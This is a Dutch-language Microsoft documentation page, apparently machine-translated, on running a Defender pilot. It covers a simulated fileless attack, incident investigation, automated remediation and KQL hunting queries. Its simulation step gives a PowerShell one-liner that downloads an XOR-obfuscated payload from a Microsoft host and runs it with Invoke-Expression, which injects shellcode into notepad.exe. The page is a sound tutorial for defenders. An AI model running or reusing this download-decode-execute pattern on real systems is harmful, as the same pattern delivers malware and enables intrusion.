


# <a name="run-your-microsoft-365-defender-attack-simulations"></a>Uw Microsoft 365 Defender-aanvals simulaties uitvoeren  

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]


**Van toepassing op:**
- Microsoft 365 Defender
<br>
<table border="0" width="100%" align="center">
  <tr style="text-align:center;">
    <td align="center" style="width:25%; border:0;" >
      <a href= "https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-plan"> 
        
      <br/>Regeling </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/prepare-mtpeval">
        
      <br/>Ervoor </a><br>
    </td>
    <td align="center"bgcolor="#d5f5e3">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-simulate">
        
      <br/>Aanval simuleren </a><br>
    </td>
    <td align="center">
      <a href="https://docs.microsoft.com/microsoft-365/security/mtp/mtp-pilot-close">
        
      <br/>Sluiten en samenvatten </a><br>
    </td>
  </tr>
  <tr>
    <td style="width:25%; border:0;">
   
    </td>
    <td valign="top" style="width:25%; border:0;">
    
</td>
    <td valign="top" style="width:25%; border:0;">

</td>    
    <td valign="top" style="width:25%; border:0;">

</td>
  </tr>
</table>

U bevindt zich momenteel in de simulatie fase aanval.

Nadat u de testomgeving hebt voorbereid, kunt u het beste het Microsoft 365 Defender-incidentbeheer en het geautomatiseerde onderzoek-en herstelmogelijkheden testen. We helpen u een verfijnde aanval te simuleren die geavanceerde technieken van detectie van detectie biedt. De aanval wordt geopend server bericht blok (SMB)-sessies op domeincontrollers opgesomd en de nieuwste IP-adressen van gebruikers apparaten ophalen. Meestal bevat dit soort aanvallen geen bestanden die op het apparaat van het slachtoffer worden neergezet, ze worden alleen in het geheugen weergegeven. Met behulp van de bestaande systeem-en beheerprogramma's, en de programmacode wordt in systeemprocessen geïnjecteerd om de uitvoering ervan te verbergen, kunnen ze door een dergelijk gedrag evade detectie en persistent maken op het apparaat.

In deze simulatie begint ons voorbeeldscenario met een PowerShell-script. Een gebruiker kan een script uitvoeren. Of het script kan vanaf een externe verbinding vanaf een eerder besmet apparaat worden uitgevoerd vanaf een externe verbinding met een andere computer: de aanvaller probeert later te navigeren in het netwerk. Detectie van deze scripts kan lastig zijn omdat beheerders vaak scripts ook extern uitvoeren om diverse beheeractiviteiten uit te voeren.



Tijdens de simulatie injecteert de aanval shellcode in een schijnbaar onschuldige proces. Voor dit scenario is het gebruik van notepad.exe vereist. We hebben dit proces voor de simulatie gekozen, maar kwaadwillende gebruikers zouden waarschijnlijk een lang actief systeemproces kunnen bereiken, zoals svchost.exe. Met de shellcode kunt u contact opnemen met de opdracht van de aanvaller en de controle (C2) om instructies te ontvangen voor het doorvoeren van de gebruikersnaam. Het script probeert Reconnaissance-query's uit te voeren op de domeincontroller (DC). Reconnaissance biedt een kwaadwillende persoon de mogelijkheid informatie te krijgen over recente gebruikers aanmeldinformatie. Wanneer hackers deze informatie hebben, kunnen ze later in het netwerk navigeren om naar een specifiek gevoelige account te gaan.

>[!IMPORTANT]
>Voor optimale resultaten volgt u de instructies voor de simulatie van een aanval.


## <a name="simulation-environment-requirements"></a>Vereisten voor simulatie omgeving

Aangezien u de testomgeving al hebt geconfigureerd tijdens de voorbereidende fase, moet u ervoor zorgen dat u twee apparaten hebt voor dit scenario: een testapparaat en een domeincontroller.

1.  Controleer of uw Tenant [Microsoft 365 Defender heeft ingeschakeld](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).

2.  Controleer de configuratie van de domeincontroller voor testen:

    - Apparaat wordt uitgevoerd met Windows Server 2008 R2 of een latere versie.
    - De test domeincontroller naar [Microsoft Defender for Identity](https://docs.microsoft.com/azure/security-center/security-center-wdatp) en [Remote Management](https://docs.microsoft.com/windows-server/administration/server-manager/configure-remote-management-in-server-manager)in te schakelen.    
    - Controleer of [Microsoft Defender voor Microsoft Cloud-beveiliging](https://docs.microsoft.com/cloud-app-security/aatp-integration) is ingeschakeld.
    - Een testgebruiker wordt in uw domein gemaakt – geen beheerdersmachtigingen nodig.

3.  Controleer de configuratie van de testapparatuur:
 
    1.  Een apparaat met Windows 10 versie 1903 of een latere versie wordt uitgevoerd.
    
    1.  Testapparaat is verbonden met het test domein.
    
    1.  [Schakel Windows Defender antivirus in](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Als u problemen ondervindt bij het inschakelen van Windows Defender antivirus, raadpleegt u dit [onderwerp over probleemoplossing](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    
    1.  Controleer of het testapparaat is [geboardd naar Microsoft Defender for Endpoint](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

Als u een bestaande Tenant gebruikt en apparaatgroepen implementeert, maakt u een speciale apparaatklasse voor het testapparaat en duwt u dit naar het hoogste niveau in de configuratie UX.


## <a name="run-the-simulation"></a>De simulatie uitvoeren

De simulatie van het aanvalsscenario uitvoeren:

1.  Meld u aan bij het testapparaat met het gebruikersaccount testen.

2.  Open een Windows PowerShell-venster op het testapparaat.

3.  Kopieer het volgende simulatie script:

    ```powershell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
    -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```
    
    > [!NOTE]
    > Als u dit document opent in een webbrowser, kunt u problemen ondervinden met het kopiëren van de volledige tekst zonder dat u bepaalde tekens kwijtraakt of om extra regeleinden te voorkomen. Download dit document en open het in Adobe Reader.

4. Plak en voer het gekopieerde script uit wanneer u hierom wordt gevraagd.

>[!NOTE]
>Als u PowerShell uitvoert met Remote Desktop Protocol (RDP), gebruikt u de opdracht Klembord tekst typen in de RDP-client, aangezien de **CTRL-V** -sneltoets of de rechtermuisknop functie mogelijk niet werkt.  In recente versies van PowerShell wordt de methode soms ook niet geaccepteerd, u moet mogelijk eerst naar Kladblok kopiëren, dit in de virtuele machine kopiëren en vervolgens in PowerShell plakken.

Een paar seconden later <i>notepad.exe</i> wordt geopend. Een gesimuleerde aanvals code wordt in notepad.exe geïnjecteerd. Zorg dat het automatisch gegenereerde Notepad-exemplaar geopend blijft voor het volledige scenario.

De gesimuleerde aanvaller probeert met een extern IP-adres te communiceren (de C2-server te simuleren) en probeert vervolgens Reconnaissance te communiceren via de domeincontroller via SMB.

U ziet een bericht dat wordt weergegeven op de PowerShell-console wanneer dit script is voltooid.

```console
ran NetSessionEnum against [DC Name] with return code result 0      
```

Als u de functie automatisch incidenten en antwoord in actie wilt zien, moet u de notepad.exe open laten. U ziet een automatisch incident en antwoord stopt het Kladblok proces.


## <a name="investigate-an-incident"></a>Een incident onderzoeken

>[!NOTE]
>Bekijk eerst de volgende video om te zien hoe het beheer van uw contactpersonen u helpt bij het onderzoek, waar u deze kunt vinden in de portal, en hoe u het kunt helpen bij het uitvoeren van beveiligingsbewerkingen:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

Als u overstapt op het punt van de burger Analyst-weergave, kunt u nu beginnen met het onderzoeken van de aanval in de portal Microsoft 365 Security Center. 

1.  Open de wachtrij voor incidenten van [Microsoft 365 Security Center](https://security.microsoft.com/incidents) van elk apparaat.

2.  Ga in het menu naar **incidenten** . 

    

3.  Het nieuwe incident voor de gesimuleerde aanval wordt weergegeven in de wachtrij voor incidenten.
 
    


### <a name="investigate-the-attack-as-a-single-incident"></a>Onderzoek een aanval als één incident

Microsoft 365 Defender vergelijkt de analyse en voegt alle gerelateerde waarschuwingen en onderzoek van verschillende producten samen tot één incident entiteit. Op deze manier laat Microsoft 365 Defender een verhaal met een bredere aanval zien, zodat de SOC-analist begrijpt en op ingewikkelde bedreigingen kan reageren.

De waarschuwingen die zijn gegenereerd tijdens deze simulatie, worden geassocieerd met dezelfde bedreiging, en worden als resultaat automatisch geaggregeerd als één incident.

Het incident weergeven:

1.  Ga naar de wachtrij voor **incidenten** .
 
    

2.  Selecteer het nieuwste item door te klikken op de cirkel die zich links van de naam van het incident bevindt. Aan een side panel wordt aanvullende informatie over het incident weergegeven, inclusief alle verwante meldingen. Elk incident heeft een unieke naam waarmee dit wordt beschreven op basis van de kenmerken van de meldingen die dit bevat.

    

    De waarschuwingen die in het dashboard worden weergegeven, kunt u filteren op basis van servicebronnen: Microsoft Defender for Identity, Microsoft Cloud app Security, Microsoft Defender for Endpoint, Microsoft 365 Defender en Microsoft Defender for Office 365.  

3.  Selecteer **incident pagina openen** om meer informatie over het incident te weten te komen.

    Op de pagina **incidenten** ziet u alle meldingen en informatie over het incident. De informatie omvat de entiteiten en assets die deel uitmaken van de waarschuwing, de detectiebron van de waarschuwingen (Microsoft Defender for Identity, EDR), en de reden waarom ze aan elkaar zijn gekoppeld. Wanneer u de lijst met incidenten van meldingen controleert, wordt de voortgang van de aanval weergegeven. In deze weergave kunt u de afzonderlijke waarschuwingen zien en onderzoeken.

    U kunt ook klikken op **incident beheren** in het menu aan de rechterkant, om het incident te markeren, het aan uzelf toe te wijzen en opmerkingen toe te voegen.

    

    


### <a name="review-generated-alerts"></a>Gegenereerde waarschuwingen controleren 

Laten we eens kijken naar enkele waarschuwingen die zijn gegenereerd tijdens de gesimuleerde aanval.

>[!NOTE]
>We lopen slechts enkele waarschuwingen die zijn gegenereerd tijdens de gesimuleerde aanval. Afhankelijk van de versie van Windows en de Microsoft 365 Defender-producten die op uw testapparaat worden uitgevoerd, ziet u mogelijk meer waarschuwingen die in iets anders worden weergegeven.

 


**Waarschuwing: verdacht verdacht proces injectie (Bron: Microsoft Defender voor eindpunt EDR)**

Geavanceerde kwaadwillende gebruikers gebruiken verfijnde en verfijnde methoden om in het geheugen te blijven staan en ze te verbergen voor detectie hulpprogramma's. U kunt zich een gang doen vanuit een vertrouwd systeemproces, in plaats van een schadelijk uitvoerbaar bestand, zodat u het programma moeilijk kunt detecteren en beveiligingsbewerkingen kunt uitvoeren.

Om ervoor te zorgen dat de SOC-analisten deze geavanceerde aanvallen kunnen ondervangen, biedt u onze cloudservice met onopvallende zichtbare informatie in een groot aantal injectie technieken met cross-process code. In de volgende afbeelding ziet u hoe u met een eindpunt van de <i>notepad.exe</i>

 


**Waarschuwing: het onverwachte gedrag van een proces wordt uitgevoerd met geen opdrachtregelargumenten (Bron: Microsoft Defender voor eindpunt EDR)**

Microsoft Defender voor eindpunten detecteren vaak het meest voorkomende kenmerk van een aanvalsmethode. Deze methode zorgt voor duurzaamheid en veroorzaakt een nieuwe tactiek voor de balk voor hackers.

We maken gebruik van leer algoritmen voor grootschalige lessen om het normale gedrag van gemeenschappelijke processen binnen een organisatie en wereldwijd te bepalen, en kijken wanneer deze processen afwijkend gedrag tonen. Dit anomalie gedrag duidt vaak op dat de programmacode is ingevoerd en wordt uitgevoerd in een ander vertrouwd proces.

Voor dit scenario verloopt het proces <i>notepad.exe</i> abnormaal gedrag, waarbij communicatie met een externe locatie wordt aangewend. Dit resultaat is onafhankelijk van de specifieke methode die wordt gebruikt om de schadelijke code in te voeren en uit te voeren.

>[!NOTE]
>Omdat deze melding wordt weergegeven op basis van computer-trainings modellen waarvoor extra backend-verwerking is vereist, kan het enige tijd duren voordat deze melding wordt weergegeven op de portal.

U ziet dat de details van de waarschuwing ook het externe IP-adres zijn: een indicator die u kunt gebruiken als draai om onderzoek uit te vouwen.

Selecteer het IP-adres in de structuur van het waarschuwings proces om de pagina met IP-adresdetails weer te geven.

 

In de volgende afbeelding ziet u de geselecteerde pagina met details van IP-adres (Klik op IP-adres in de boomstructuur van het waarschuwings proces).


**Waarschuwing: gebruikers-en IP-adres Reconnaissance (SMB) (Bron: Microsoft Defender for Identity)**

Met behulp van inventarisatie met behulp van SMB-protocol (Server Message Block) kunnen hackers recente gebruikers aanmeldinformatie verkrijgen waarmee ze later via het netwerk kunnen navigeren om toegang te krijgen tot een specifiek gevoelige account.

Bij deze detectie wordt een waarschuwing geactiveerd wanneer de SMB-sessie inventarisatie wordt uitgevoerd voor een domeincontroller.

 


### <a name="review-the-device-timeline-microsoft-defender-for-endpoint"></a>De tijdlijn van het apparaat controleren [Microsoft Defender for endpoints]
Wanneer u de verschillende meldingen in dit incident hebt onderzocht, gaat u terug naar de pagina met het incident dat u eerder hebt onderzocht. Selecteer het tabblad **apparaten** op de pagina met incidenten om de apparaten in dit incident te bekijken zoals gerapporteerd door Microsoft Defender voor eindpunten en Microsoft Defender for Identity.

Selecteer de naam van het apparaat waarop de aanval is uitgevoerd om de entiteits pagina voor dat specifieke apparaat te openen. Op deze pagina kunt u waarschuwingen weergeven die zijn geactiveerd en de gerelateerde gebeurtenissen.

Selecteer het tabblad **tijdlijn** om de tijdlijn van het apparaat te openen en alle gebeurtenissen en gedragingen op het apparaat in chronologische volgorde weer te geven, waarbij de waarschuwingen zijn getreden.

 

Het uitvouwen van een paar van de interessantere gedragingen bieden nuttige informatie, zoals proces bomen.

Schuif bijvoorbeeld omlaag totdat u bij de gebeurtenis **verdacht verdacht proces de injectie** vindt. Selecteer de **powershell.exe die zijn geïnjecteerd naar notepad.exe proces** gebeurtenis eronder, om de volledige processtructuur weer te geven voor dit gedrag onder de grafiek **gebeurtenis entiteiten** in het zijvenster. Gebruik de zoekbalk om zo nodig te filteren.


### <a name="review-the-user-information-microsoft-cloud-app-security"></a>Controleer de gebruikersgegevens [Microsoft Cloud app security]

Selecteer op de pagina incident het tabblad **gebruikers** om de lijst met gebruikers weer te geven die betrokken zijn bij de aanval. De tabel bevat extra informatie over elke gebruiker, waaronder de **onderzoek prioriteit** van elke gebruiker.

Selecteer de gebruikersnaam om de profielpagina van de gebruiker te openen waar verder onderzoek kan worden uitgevoerd. [Meer informatie over het onderzoeken van risico gebruikers](https://docs.microsoft.com/cloud-app-security/tutorial-ueba#identify).
<br>


## <a name="automated-investigation-and-remediation"></a>Automatisch onderzoek en herstel
>[!NOTE]
>Voordat u via deze simulatie verdergaat, bekijkt u de volgende video om vertrouwd te raken met wat automatisch herstel is, waar u het kunt vinden in de portal en hoe u het kunt helpen bij uw beveiligingsactiviteiten:

>[!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

Ga terug naar het incident in het Microsoft 365 Security Center Portal. Het tabblad **onderzoeken** op de pagina **incident** toont de geautomatiseerde onderzoeken die zijn geactiveerd door Microsoft Defender voor de identiteit en Microsoft Defender for Endpoint. Met de onderstaande schermafbeelding wordt alleen het geautomatiseerd onderzoek weergegeven dat door Defender voor eindpunt is geactiveerd. In het eindpunt voor eindpunten worden standaard de artefacten die zijn gevonden in de wachtrij, automatisch hersteld waarvoor herstel nodig is.


Selecteer de waarschuwing die een onderzoek heeft geactiveerd om de pagina **Details van onderzoek** te openen. U ziet de volgende informatie:
- Waarschuwing (s) die het geautomatiseerde onderzoek hebben geactiveerd.
- Beïnvloede gebruikers en apparaten. Als indicatoren zijn gevonden op extra apparaten, worden deze extra apparaten ook weergegeven.
- Lijst met bewijzen. De entiteiten zijn gevonden en geanalyseerd, zoals bestanden, processen, services, Stuurprogramma's en netwerkadressen. Deze entiteiten worden geanalyseerd op mogelijke relaties voor de waarschuwing en zijn geclassificeerd als schadelijk of schadelijk.
- Bedreigingen gevonden. Bekende bedreigingen die tijdens het onderzoek zijn gevonden.

>[!NOTE]
>Afhankelijk van de tijdsinstellingen, kan het geautomatiseerde onderzoek mogelijk nog steeds actief zijn. Wacht een paar minuten totdat het proces is voltooid voordat u het bewijs gaat verzamelen en analyseren en Bekijk de resultaten. Vernieuw de pagina met **onderzoek Details** om de meest recente bevindingen te vinden.


Tijdens het geautomatiseerde onderzoek heeft Microsoft Defender voor eindpunt de notepad.exe proces geïdentificeerd, dat is geïnjecteerd als een van de artefacten waarvoor herstel nodig is. Met eindpunten voor eindpunt worden de verdachte proces injectie automatisch beëindigd als onderdeel van de geautomatiseerde herstelprocedure. 

U kunt <i>notepad.exe</i> verdwijnen uit de lijst met actieve processen op het testapparaat.

## <a name="resolve-the-incident"></a>Het incident oplossen

Wanneer het onderzoek is voltooid en bevestigd, moet u het incident sluiten.

Selecteer **incident beheren**. Stel de status voor het **oplossen van incidenten** in en selecteer de gewenste classificatie.

Wanneer het incident is opgelost, worden alle bijbehorende waarschuwingen in Microsoft 365 Beveiligingscentrum en in de bijbehorende portals gesloten.

 

<br>
Hiermee wordt de simulatie van de aanval voor incidentenbeheer en voor automatisch onderzoek en herstelscenario's gewikkeld. Met de volgende simulatie wordt u begeleid bij het maken van een proactieve bedreiging van de jacht voor potentieel schadelijke bestanden. 

## <a name="advanced-hunting-scenario"></a>Scenario voor Geavanceerd jacht

>[!NOTE]
>Bekijk de volgende video voor meer informatie over de basisbeginselen van de ervaring, zie waar u deze kunt vinden in de portal en hoe u het kunt helpen bij het uitvoeren van beveiligingsbewerkingen:

>[!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bp7O]

### <a name="hunting-environment-requirements"></a>Voorschriften voor de jacht omgeving
Er is één intern postvak en apparaat vereist voor dit scenario. U hebt ook een extern e-mailaccount nodig om het testbericht te verzenden.

1.  Controleer of uw Tenant [Microsoft 365 Defender heeft ingeschakeld](https://docs.microsoft.com/microsoft-365/security/mtp/mtp-enable#starting-the-service).
2.  Aangeven dat een doel postvak moet worden gebruikt voor het ontvangen van e-mail.
    a.  Dit postvak moet worden gecontroleerd door Microsoft Defender for Office 365 b.  Het apparaat van behoefte 3 moet toegang hebben tot dit postvak
3.  Configureer een testapparaat: a.  Zorg dat u Windows 10 versie 1903 of hoger gebruikt.
    b.  Neem deel aan het test domein.
    c.  [Schakel Windows Defender antivirus in](https://docs.microsoft.com/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features). Als u problemen ondervindt bij het inschakelen van Windows Defender antivirus, raadpleegt u [dit onderwerp over probleemoplossing](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).
    d.  [Onboarding to Microsoft Defender for Endpoint](https://docs.microsoft.com/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).

### <a name="run-the-simulation"></a>De simulatie uitvoeren
1.  Stuur via een extern e-mailaccount een e-mailbericht naar het postvak dat is gevonden in stap 2 van de sectie vereisten voor testomgeving. Voeg een bijlage toe die wordt toegestaan via elk bestaand e-mail filter beleid.  Dit bestand hoeft niet te zijn schadelijk of een uitvoerbaar bestand. Voorgestelde bestandstypen zijn <i>. PDF</i>, <i>. exe</i> (indien toegestaan) of Office-document, zoals een Word-bestand.
2.  Open het verzonden e-mailbericht van het apparaat dat is geconfigureerd in stap 3 van de sectie omgevingsvereisten testen. Open de bijlage of sla het bestand op het apparaat op.


**Go-jacht**
1.  Open de portal van security.microsoft.com.

2.  Ga naar de **jacht > geavanceerde jacht**.

     

3.  Maak een query die begint met het verzamelen van e-mail gebeurtenissen.

    1.  Selecteer in het deelvenster query de optie Nieuw.
    
    1.  Dubbelklik op de tabel EmailEvents van het schema.

        ```
        EmailEvents 
        ```                                        

    1.  De laatste 24 uur van het tijdsbestek wijzigen. Ervan uitgaand dat de e-mail die u hebt verzonden toen u de bovenstaande simulatie uitvoerde, stond in de afgelopen 24 uur, anders wijzigt u de tijdsperiode.
    
         

    1.  Voer de query uit.  Het kan zijn dat u veel resultaten hebt, afhankelijk van de omgeving van de prototype.  

        > [!NOTE]
        > Zie de volgende stap voor het filteren van opties om het resultaat van de gegevens te beperken.

         

        > [!NOTE]
        > Geavanceerde jacht geeft queryresultaten weer als tabelgegevens. U kunt ook kiezen voor het weergeven van de gegevens in andere notatie typen, zoals grafieken.    

    1.  Bekijk de resultaten en kijk of u het e-mailbericht dat u hebt geopend kunt identificeren.  Het kan tot 2 uur duren voordat het bericht in de geavanceerde jacht wordt weergegeven. Als de e-mail omgeving grote en veel resultaten bevat, kunt u de **optie filters weergeven** gebruiken om het bericht te zoeken. 

   In het voorbeeld is het e-mailbericht verzonden via een Yahoo-account. Klik op het **+** pictogram naast **Yahoo.com** onder de sectie SenderFromDomain en klik vervolgens op **toepassen** om het geselecteerde domein toe te voegen aan de query.  Gebruik het domein of e-mailaccount dat is gebruikt voor het verzenden van het testbericht in stap 1 van de simulatie uitvoeren om de resultaten te filteren.  Voer de query opnieuw uit om een kleinere resultatenset te krijgen om te controleren of het bericht in de simulatie wordt weergegeven.
   
         

        ```console
        EmailEvents 
        | where SenderMailFromDomain == "yahoo.com"
        ```

    1.  Klik op de uitkomst rijen van de query, zodat u de record kunt controleren.
   
         

4.  Nu u hebt gecontroleerd of u het e-mailbericht kunt zien, voegt u een filter toe voor de bijlagen. Richt u op alle e-mailberichten met bijlagen in de omgeving. Voor dit scenario zijn de focus op inkomende e-mailberichten, niet voor berichten die vanuit uw omgeving worden verzonden. Verwijder filters die u hebt toegevoegd om het bericht op te halen en voeg "| waarbij **AttachmentCount > 0** en **EmailDirection**  ==  **"inkomende" "**

    In de volgende query ziet u het resultaat voor een kortere lijst dan de aanvankelijke query voor alle e-mail gebeurtenissen:

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"

    ```

5.  Neem vervolgens de informatie over de bijlage op (bijvoorbeeld: bestandsnaam, hashes) in de resultatenset. U kunt dit doen door lid te worden van de tabel **EmailAttachmentInfo** . De veelgebruikte velden die u kunt gebruiken om deel te nemen in dit geval zijn **NetworkMessageId** en **RecipientObjectId**.

De volgende query bevat ook een extra regel | **Project: Wijzig de naam van EmailTimestamp = tijdstempel,** zodat u kunt zien welke tijdstempels zijn gerelateerd aan de e-mail en tijdstempels die u toevoegt aan de volgende stap.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    ```

6.  Gebruik vervolgens de waarde **sha256** in de tabel **EmailAttachmentInfo** om **DeviceFileEvents** (bestandsacties die op het eindpunt plaatsvond) voor die hash te zoeken.  Het veld gebruikelijk is de SHA256-hash voor de bijlage.

    De resultaattabel bevat nu gegevens van het eindpunt (Microsoft Defender for Endpoints), zoals de naam van het apparaat, de actie die is uitgevoerd (in dit geval gefilterd op alleen FileCreated-gebeurtenissen) en de locatie waar het bestand is opgeslagen. De naam van het account dat is gekoppeld aan het proces, wordt ook opgenomen.

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId 
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    ```

U hebt nu een query gemaakt waarmee alle inkomende e-mailberichten worden geïdentificeerd waarbij de gebruiker de bijlage heeft geopend of opgeslagen. U kunt deze query ook verfijnen om te filteren op specifieke domeinen, bestanden, bestandstypen, enzovoort.

7.  Functies zijn een speciaal type join, waarmee u meer tij informatie over een bestand kunt trekken, zoals de prevalente, onderteken-en uitgeversinformatie, enzovoort.  Als u meer wilt weten over het bestand, gebruikt u de functie verrijking **FileProfile ()** .

    ```console
    EmailEvents 
    | where AttachmentCount > 0 and EmailDirection == "Inbound"
    | project-rename EmailTimestamp=Timestamp 
    | join EmailAttachmentInfo on NetworkMessageId, RecipientObjectId
    | join DeviceFileEvents on SHA256 
    | where ActionType == "FileCreated"
    | distinct SHA1
    | invoke FileProfile()
    ```


**Een detectie maken**

Wanneer u een query hebt gemaakt met informatie waarover u een **melding wilt ontvangen** als ze in de toekomst plaatsvinden, kunt u een aangepaste detectie van de query maken. 

Door aangepaste detecties wordt de query uitgevoerd volgens de frequentie die u hebt ingesteld, en met de resultaten van de query's maakt u beveiligingswaarschuwingen, op basis van de beïnvloede activa die u kiest. Deze meldingen komen overeen met incidenten en kunnen worden triaged als een andere Beveiligingsmelding die wordt gegenereerd door een van de producten.

1.  Op de pagina query verwijdert u de regel 7 en 8 die u hebt toegevoegd in stap 7 van de instructies voor het uitvoeren van de stappen en klikt u op **detectieregel maken**. 
    
     

    > [!NOTE]
    > Als u klikt op **detectieregel maken** en er syntaxisfouten zijn in uw query, wordt uw detectieregel niet opgeslagen. Controleer de query om te controleren of er geen fouten zijn. 


2.  Vul de vereiste velden in met de gegevens waarmee het beveiligingsteam de melding begrijpt, waarom de melding is gegenereerd en welke acties u ervan verloopt. 

    

    Zorg ervoor dat u de velden vult met de duidelijkheid, zodat de volgende gebruiker een weloverwogen beslissing geeft over deze detectieregel waarschuwing 

3.  Selecteer de entiteiten die in deze waarschuwing worden beïnvloed. Selecteer **apparaat** en **Postvak** in dit geval.

    
 

4.  Bepaal welke actie moet worden uitgevoerd als de waarschuwing wordt geactiveerd. In dit geval voert u een antivirus scan uit, maar u kunt wel andere acties ondernemen. 

     

5.  Selecteer het bereik voor de waarschuwingsregel. Aangezien deze query gebruikmaakt van apparaten, zijn de apparaatgroepen van deze aangepaste detectie afhankelijk van de context Microsoft Defender for Endpoint. Bij het maken van een aangepaste detectie die geen apparaten bevat als gevolg van een entiteit, is het bereik niet van toepassing.  

     

    Voor deze pilot kunt u de regel beperkingen toepassen op een subset van testapparaten in uw productieomgeving.

6.  Selecteer **Maken**. Selecteer vervolgens **aangepaste detectieregels** in het navigatiedeelvenster.
 
     

     

Op deze pagina kunt u de detectieregel selecteren waarmee een detailpagina wordt geopend. 

     

### <a name="additional-advanced-hunting-walk-through-exercises"></a>Aanvullende geavanceerde jacht Walk-in-oefeningen

Als u meer wilt weten over een geavanceerde jacht, kunt u via de volgende webcasts de mogelijkheden van een geavanceerde jacht in Microsoft 365 Defender doorlopen om query's met meerdere pijler te maken, naar entiteiten te draaien en aangepaste detectie-en herstelacties te maken.

>[!NOTE]
>Bereid u voor voorbereiding met uw eigen GitHub-account voor het uitvoeren van de jagers-query's in uw test testomgeving.  

|  Title  |  Beschrijving  |  MP4 downloaden  |  Op YouTube letten  |  CSL-bestand voor gebruik  |
|:-----|:-----|:-----|:-----|:-----|
| Aflevering 1: basisprincipes van KQL | We bespreken de basisbeginselen van de geavanceerde jacht-functies in Microsoft 365 Defender. Lees meer over de beschikbare geavanceerde jacht-gegevens en de Basic KQL syntaxis en operatoren. | [ MP4](https://aka.ms/MTP15JUL20_MP4) | [YouTube](https://youtu.be/0D9TkGjeJwM) | [Aflevering 1: CSL-bestand in Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl) |
